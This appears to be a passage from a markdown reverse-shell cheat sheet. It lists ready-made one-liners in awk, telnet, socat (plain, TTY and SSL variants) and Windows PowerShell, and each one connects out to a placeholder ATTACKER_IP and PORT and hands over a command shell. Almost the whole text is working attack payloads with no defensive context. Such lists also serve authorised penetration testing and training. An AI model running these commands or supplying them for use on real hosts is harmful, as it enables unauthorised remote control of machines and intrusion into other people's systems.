 
## Awk

### Basic
```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

---

## Telnet

### Basic
```bash
TF=$(mktemp -u);mkfifo $TF && telnet ATTACKER_IP PORT 0<$TF | bash 1>$TF
```

---

## Socat

### Basic
```bash
socat TCP:ATTACKER_IP:PORT EXEC:/bin/sh
```

### With TTY
```bash
socat TCP:ATTACKER_IP:PORT EXEC:'/bin/sh',pty,stderr,setsid,sigint,sane
```

### SSL Encrypted
```bash
socat OPENSSL:ATTACKER_IP:PORT EXEC:/bin/sh
```

---

## Windows CMD

### Basic
```cmd
cmd.exe /c powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

---